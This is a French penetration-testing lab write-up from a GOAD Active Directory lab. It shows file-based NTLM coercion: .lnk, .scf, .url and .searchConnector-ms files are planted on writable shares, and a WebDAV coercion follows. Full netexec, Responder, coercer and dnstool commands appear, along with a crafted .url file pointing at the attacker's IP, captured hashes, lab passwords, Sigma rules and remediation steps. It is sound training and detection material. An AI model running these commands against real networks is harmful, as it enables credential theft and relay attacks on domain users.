



# SC-AD-011 — Coerce & File-based Attacks

**HikenRoot Forge — MediaTech Groupe SA**

---

## Classification

| Attribut | Valeur |
|----------|--------|
| **Scénario** | SC-AD-011 |
| **Titre** | Coerce & File-based Attacks — Authentification forcée via fichiers malveillants |
| **Référence Mayfly** | [Part 13 — Having fun inside a domain](https://mayfly277.github.io/posts/GOADv2-pwning-part13/) |
| **Certifications** | CRTO |
| **Sévérité** | Critique (CVSS 3.1 : 8.1) |
| **MITRE ATT&CK** | T1187, T1557, T1071.001, T1569.002 |
| **Domaines compromis** | north.sevenkingdoms.local (catelyn.stark), essos.local (khal.drogo, BRAAVOS$) |
| **Date d'exécution** | 9 mars 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre cinq techniques de coercion par fichiers qui forcent les utilisateurs Windows à s'authentifier vers un serveur contrôlé par l'attaquant simplement en **visitant un dossier partagé** — sans aucun clic. En déposant des fichiers spécialement conçus (.lnk, .scf, .url, .searchConnector-ms) sur un partage SMB inscriptible, l'attaquant capture des hash NTLMv2 exploitables par cracking offline ou relay. La technique la plus avancée (coercion WebDAV) active le service WebClient sur la machine victime, permettant une authentification HTTP relayable vers LDAP pour l'escalade de privilèges — une technique invisible au monitoring SMB standard. L'impact inter-domaines est démontré : un fichier sur CASTELBLACK (north) capture les credentials de khal.drogo (essos).

### Pour un auditeur ISO 27001 / NIS2

- **ISO 27001 — A.8.2 (Droits d'accès privilégiés)** : le partage `all` sur CASTELBLACK accorde READ/WRITE à tous les utilisateurs du domaine. Aucun contrôle d'accès ne restreint l'upload de fichiers aux comptes autorisés. N'importe quel utilisateur peut déposer un fichier de coercion.
- **ISO 27001 — A.8.9 (Gestion de la configuration)** : le service WebClient est installé sur BRAAVOS (Windows Server 2016) sans justification métier. Ce service, conçu pour les postes clients, permet les attaques de relay HTTP→LDAP contournant le SMB signing.
- **ISO 27001 — A.8.15 (Journalisation)** : aucun monitoring ne détecte la création de fichiers de coercion (.lnk, .scf, .url, .searchConnector-ms) sur les dossiers partagés. Aucune alerte sur l'activation du service WebClient.
- **NIS2 — Article 21 §2(d)** : les fichiers malveillants déposés par n'importe quel utilisateur propagent le vol de credentials à travers les frontières de confiance (north.sevenkingdoms.local → essos.local). Le trust inter-domaines ne protège pas contre la coercion par fichiers.

### Pour un RSSI

Les attaques de coercion par fichiers ne nécessitent qu'un compte de domaine standard et un partage inscriptible — des conditions présentes dans pratiquement tous les environnements AD. L'attaque est silencieuse (pas de logs, aucune interaction au-delà de la visite d'un dossier), scalable (un seul fichier compromet chaque utilisateur qui visite le share) et inter-domaines. La variante WebDAV est la plus dangereuse : le .searchConnector-ms démarre le service WebClient, puis coercer déclenche une auth HTTP relayable vers LDAP pour RBCD ou Shadow Credentials — contournant entièrement le SMB signing. Remédiation immédiate : restreindre les droits d'écriture sur les partages, désactiver WebClient sur tous les serveurs, déployer un FIM sur les dossiers partagés.

---

## Diagramme réseau



---

## Kill Chain



---

## Scope & Méthodologie

| Élément | Détail |
|---------|--------|
| **Périmètre** | GOAD v3 — shares inscriptibles sur CASTELBLACK, WebClient sur BRAAVOS |
| **Machine d'attaque** | Kali Linux 10.10.10.2 (WireGuard) |
| **Outils** | Responder 3.1.6, netexec (modules slinky/scuffy/drop-sc/webdav), coercer, dnstool.py (krbrelayx), impacket-smbclient |
| **Référence** | mayfly277 GOAD Part 13, Gabriel Prud'homme — Coerce Talk |
| **Prérequis** | Compte domain user avec accès en écriture sur un share (arya.stark:Needle) |
| **Approche** | Exploitation manuelle — pas de Metasploit |

---

## Phases d'exploitation

### Phase 1 — Reconnaissance des partages inscriptibles

**1. Énumération des shares**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares
```

```
SMB   192.168.10.22   445   CASTELBLACK   [+] north.sevenkingdoms.local\arya.stark:Needle
SMB   192.168.10.22   445   CASTELBLACK   Share    Permissions   Remark
SMB   192.168.10.22   445   CASTELBLACK   all      READ,WRITE    Basic RW share for all
SMB   192.168.10.22   445   CASTELBLACK   public   READ,WRITE    Basic Read share for all domain users
```

Deux partages inscriptibles par n'importe quel utilisateur du domaine. Le share `all` est la cible idéale.

---

### Phase 2 — Coercion par fichiers (SMB)

**Préparation** : Responder en écoute en mode verbose. Le flag `-v` est critique — sans lui, le cache SQLite (`Responder.db`) ignore les hash déjà vus.

```bash
# Reset complet du cache Responder (indispensable entre les techniques)
sudo rm /usr/share/responder/Responder.db /usr/share/responder/logs/*
sudo responder -I wg-goad -v
```

**Simulation victime** : session RDP catelyn.stark sur WINTERFELL, navigation vers `\\castelblack\all`.

```bash
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:192.168.10.11 /cert-ignore
```

#### Technique 1 — Fichier .lnk (slinky)

Un fichier .lnk contient une référence UNC pour son icône. Quand l'Explorateur Windows affiche le contenu du dossier, il tente de résoudre le chemin de l'icône — envoyant le hash NTLMv2 de l'utilisateur vers l'attaquant **sans aucun clic**.

**2. Dépôt du fichier .lnk**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -M slinky -o NAME=desktop.lnk SERVER=10.10.10.2
```

```
SLINKY   192.168.10.22   445   CASTELBLACK   [+] Created LNK file on the all share
SLINKY   192.168.10.22   445   CASTELBLACK   [+] Created LNK file on the public share
```

**3. Capture du hash** — catelyn.stark visite `\\castelblack\all` :

```
[SMB] NTLMv2-SSP Client   : 192.168.10.11
[SMB] NTLMv2-SSP Username : NORTH\catelyn.stark
[SMB] NTLMv2-SSP Hash     : catelyn.stark::NORTH:232552275e17536d:1AE4B6CC320CE642A839908509D6CC04:0101...
```

Aucun clic nécessaire. Le hash est capturé automatiquement dès l'entrée dans le dossier.

**4. Nettoyage**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -M slinky -o NAME=desktop.lnk SERVER=10.10.10.2 CLEANUP=true
```

---

#### Technique 2 — Fichier .scf (scuffy)

Un fichier .scf (Shell Command File) utilise une directive `IconFile` pointant vers un chemin UNC. Même mécanisme que le .lnk — Windows résout l'icône à l'entrée dans le dossier.

**5. Dépôt du fichier .scf**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -M scuffy -o NAME=desktop.scf SERVER=10.10.10.2
```

```
SCUFFY   192.168.10.22   445   CASTELBLACK   [+] Created SCF file on the all share
```

**6. Capture du hash** — catelyn visite le share :

```
[SMB] NTLMv2-SSP Client   : 192.168.10.11
[SMB] NTLMv2-SSP Username : NORTH\catelyn.stark
[SMB] NTLMv2-SSP Hash     : catelyn.stark::NORTH:867d179d749ceb90:0E9EC5ACB4A3DAE5EE729106F00427CF:0101...
```

Confirmé fonctionnel sur Windows Server 2019.

**7. Nettoyage**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -M scuffy -o NAME=desktop.scf SERVER=10.10.10.2 CLEANUP=true
```

---

#### Technique 3 — Fichier .url (manuel)

Un fichier .url (raccourci Internet) avec un chemin UNC dans `IconFile` déclenche le même comportement de résolution automatique. Contrairement aux deux techniques précédentes, le fichier est créé et uploadé manuellement.

**8. Création et upload du fichier .url**

```bash
cat > /tmp/clickme.url << 'EOF'
[InternetShortcut]
URL=http://click.me/pwned
WorkingDirectory=test
IconFile=\\10.10.10.2\%USERNAME%.icon
IconIndex=1
EOF
```

```bash
impacket-smbclient north.sevenkingdoms.local/arya.stark:Needle@192.168.10.22
# use all
# put /tmp/clickme.url
```

**9. Capture du hash** — catelyn visite le share :

```
[SMB] NTLMv2-SSP Client   : 192.168.10.11
[SMB] NTLMv2-SSP Username : NORTH\catelyn.stark
[SMB] NTLMv2-SSP Hash     : catelyn.stark::NORTH:98356f3c6a8fcbf2:F3102A6C003FF2C6BAF5D471FE1331BC:0101...
```

**10. Nettoyage**

```bash
impacket-smbclient north.sevenkingdoms.local/arya.stark:Needle@192.168.10.22
# use all
# rm clickme.url
```

---

#### Technique 4 — .searchConnector-ms (drop-sc)

Le .searchConnector-ms a un **double effet** : capture de hash NTLMv2 ET **démarrage du service WebClient** sur la machine de la victime. Le WebClient permet une authentification HTTP relayable vers LDAP — c'est ce qui rend cette technique bien plus dangereuse que les trois précédentes.

**11. Dépôt du fichier .searchConnector-ms**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -M drop-sc -o SHARE=all URL=\\\\10.10.10.2\\share
```

```
DROP-SC   192.168.10.22   445   CASTELBLACK   [+] Created Documents.searchConnector-ms file on the all share
```

**12. Changement de victime** — khal.drogo (essos.local) connecté en RDP sur BRAAVOS, visite `\\castelblack\all` :

```bash
xfreerdp /d:essos.local /u:khal.drogo /p:horse /v:192.168.10.23 /cert-ignore
```

**13. Capture inter-domaines + activation WebClient**

```
[SMB] NTLMv2-SSP Client   : 192.168.10.23
[SMB] NTLMv2-SSP Username : ESSOS\khal.drogo
[SMB] NTLMv2-SSP Hash     : khal.drogo::ESSOS:0b7618234d43ad72:E4523B1F3C08608E313C6AB5C908172B:0101...
```

Impact inter-domaines démontré : un fichier sur CASTELBLACK (north) capture les credentials de khal.drogo (essos). Les frontières de confiance ne protègent pas contre la coercion par fichiers.

**14. Vérification WebClient actif sur BRAAVOS**

```bash
netexec smb 192.168.10.23 -u khal.drogo -p 'horse' -d essos.local -M webdav
```

```
WEBDAV   192.168.10.23   445   BRAAVOS   WebClient Service enabled on: 192.168.10.23
```

Le WebClient est maintenant actif — Phase 3 débloquée.

---

### Phase 3 — Coercion WebDAV (HTTP)

Avec le WebClient actif sur BRAAVOS, on peut coercer une authentification HTTP. L'auth HTTP est **relayable vers LDAP** (contrairement à l'auth SMB), permettant l'escalade de privilèges via RBCD ou Shadow Credentials.

**Pourquoi l'HTTP est plus dangereux que le SMB** : le SMB signing bloque le relay SMB→LDAP. Mais l'auth HTTP via WebClient n'est pas concernée par le SMB signing — elle est relayable vers n'importe quel service, y compris LDAP. C'est le vecteur qui transforme une simple capture de hash en compromission complète.

**15. Ajout d'un enregistrement DNS pointant vers l'attaquant**

Le WebClient nécessite un hostname (pas une IP) pour déclencher l'auth HTTP. On ajoute un enregistrement DNS A via LDAP.

```bash
python3 /opt_test/krbrelayx/dnstool.py \
  -u 'north.sevenkingdoms.local\arya.stark' -p 'Needle' \
  -a add -r 'attacker.north.sevenkingdoms.local' -d 10.10.10.2 192.168.10.11
```

```
[+] LDAP operation completed successfully
```

**16. Coercion HTTP de BRAAVOS$ via coercer**

```bash
coercer coerce -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -t 192.168.10.23 -l attacker.north.sevenkingdoms.local --always-continue
```

**17. Résultat — hash compte machine + coercion HTTP**

```
[SMB] NTLMv2-SSP Client   : 192.168.10.23
[SMB] NTLMv2-SSP Username : ESSOS\BRAAVOS$
[SMB] NTLMv2-SSP Hash     : BRAAVOS$::ESSOS:cca7d83f3bae651f:6360470EEE219F199F7B4CA7F669F6DA:0101...

[HTTP] Sending NTLM authentication request to 192.168.10.23
[HTTP] Sending NTLM authentication request to 192.168.10.23
[HTTP] Sending NTLM authentication request to 192.168.10.23
```

Les coercions SMB et HTTP sont déclenchées simultanément. Les lignes `[HTTP]` confirment que le WebClient traite les requêtes d'authentification HTTP. En production, `ntlmrelayx` remplacerait Responder pour relayer l'auth HTTP vers LDAP :
- **RBCD** : créer un compte machine → déléguer vers BRAAVOS$ → impersonation Administrator
- **Shadow Credentials** : injecter msDS-KeyCredentialLink sur BRAAVOS$ → auth par certificat
- **Modification d'ACL** : ajouter des privilèges à un compte contrôlé

**18. Nettoyage complet**

```bash
netexec smb 192.168.10.22 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local \
  -M drop-sc -o SHARE=all URL=\\\\10.10.10.2\\share CLEANUP=true

python3 /opt_test/krbrelayx/dnstool.py \
  -u 'north.sevenkingdoms.local\arya.stark' -p 'Needle' \
  -a remove -r 'attacker.north.sevenkingdoms.local' -d 10.10.10.2 192.168.10.11
```

```
[+] LDAP operation completed successfully
```

---

## Synthèse des techniques

| # | Technique | Outil | Victime | Hash capturé | Protocole | Particularité |
|---|-----------|-------|---------|-------------|-----------|---------------|
| 1 | .lnk | netexec slinky | catelyn.stark (NORTH) | NTLMv2 user | SMB | Auto-trigger sur visite dossier |
| 2 | .scf | netexec scuffy | catelyn.stark (NORTH) | NTLMv2 user | SMB | Confirmé WS2019 |
| 3 | .url | upload manuel | catelyn.stark (NORTH) | NTLMv2 user | SMB | Pas de module netexec |
| 4 | .searchConnector-ms | netexec drop-sc | khal.drogo (ESSOS) | NTLMv2 user | SMB | **Démarre WebClient** + inter-domaines |
| 5 | WebDAV coerce | coercer + dnstool | BRAAVOS$ (ESSOS) | NTLMv2 machine | **HTTP** | Relayable vers LDAP |

---

## Détection SIEM

### Event IDs critiques

| Event ID | Source | Description |
|----------|--------|-------------|
| 5145 | Security | Detailed File Share — création de fichiers sur les partages |
| 7036 | System | Changement d'état de service — WebClient start/stop |
| 8001 | DNS Server | Création d'enregistrement DNS via LDAP |

### Sigma Rules

```yaml
title: Fichier de coercion créé sur un partage SMB
id: sc-ad-011-001
status: experimental
description: Détecte la création de fichiers de coercion connus sur les partages SMB
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5145
        RelativeTargetName|endswith:
            - '.searchConnector-ms'
            - '.scf'
            - '.url'
            - '.lnk'
        AccessMask: '0x2'
    condition: selection
falsepositives:
    - Fichiers raccourcis légitimes créés par les administrateurs
level: high
tags:
    - attack.credential_access
    - attack.t1187
```

```yaml
title: Service WebClient démarré sur un serveur
id: sc-ad-011-002
status: experimental
description: Détecte l'activation du service WebClient sur Windows Server — ne devrait jamais tourner sur un serveur
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID: 7036
        param1: 'WebClient'
        param2: 'running'
    condition: selection
falsepositives:
    - Utilisation légitime de WebDAV (rare sur les serveurs)
level: critical
tags:
    - attack.credential_access
    - attack.t1187
    - attack.t1071.001
```

```yaml
title: Enregistrement DNS créé via LDAP par un utilisateur non-admin
id: sc-ad-011-003
status: experimental
description: Détecte l'ajout d'un enregistrement DNS par un utilisateur standard — indicateur de WebDAV coerce setup
logsource:
    product: windows
    service: dns-server
detection:
    selection:
        EventID: 8001
    filter:
        SubjectUserName|endswith: '$'
    condition: selection and not filter
level: medium
tags:
    - attack.credential_access
    - attack.t1187
```

### IOC

| Type | Valeur | Contexte |
|------|--------|----------|
| Fichier | `*.searchConnector-ms` sur un share | Activation WebClient |
| Fichier | `*.scf` avec `IconFile=\\...` | Coercion SMB via icône |
| Fichier | `*.url` avec `IconFile=\\...` | Coercion SMB via raccourci |
| Fichier | `*.lnk` pointant vers UNC externe | Coercion SMB via raccourci |
| Service | WebClient running sur Windows Server | Précondition WebDAV coerce |
| DNS | Enregistrement A créé par un user standard | Setup WebDAV coerce |
| Réseau | Auth HTTP sortante vers une IP non-DC | WebDAV coerce en cours |

---

## Remédiation Secure by Design

### 0-24h (urgence)

- Désactiver le service WebClient sur tous les serveurs :
  ```powershell
  Stop-Service WebClient -Force
  Set-Service WebClient -StartupType Disabled
  ```
- Restreindre l'accès en écriture sur les partages — supprimer "Everyone" et "Domain Users" :
  ```powershell
  Revoke-SmbShareAccess -Name "all" -AccountName "Everyone" -Force
  Grant-SmbShareAccess -Name "all" -AccountName "NORTH\Share-Writers" -AccessRight Change -Force
  ```

### 1 semaine

- Activer l'audit SMB avancé sur les serveurs de fichiers :
  ```powershell
  auditpol /set /subcategory:"Detailed File Share" /success:enable /failure:enable
  ```
- Déployer les règles Sigma ci-dessus dans le SIEM
- Imposer le SMB signing sur toutes les machines (pas seulement les DC) via GPO

### 1 mois

- Déployer un monitoring d'intégrité des fichiers (FIM) sur tous les dossiers partagés
- Segmentation réseau pour empêcher l'accès aux partages inter-VLAN
- Revue trimestrielle des permissions sur les partages partagés
- Documenter chaque share avec justification métier et matrice d'accès

---

## Architecture cible sécurisée



---

## Références

- [mayfly277 — GOAD Part 13 Having fun inside a domain](https://mayfly277.github.io/posts/GOADv2-pwning-part13/)
- [Gabriel Prud'homme — Coerce Talk](https://www.youtube.com/watch?v=b0lLxLJKaRs)
- [p0dalirius — Coercer](https://github.com/p0dalirius/Coercer)
- [dirkjanm — krbrelayx (dnstool.py)](https://github.com/dirkjanm/krbrelayx)
- [bitsadmin — WebClient Attack](https://www.bitsadmin.com/blog/spooling-printers)
- [MITRE ATT&CK T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [MITRE ATT&CK T1557 — Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/)

---

*HikenRoot Forge — SC-AD-011 — hik3nR00t — Mars 2026*
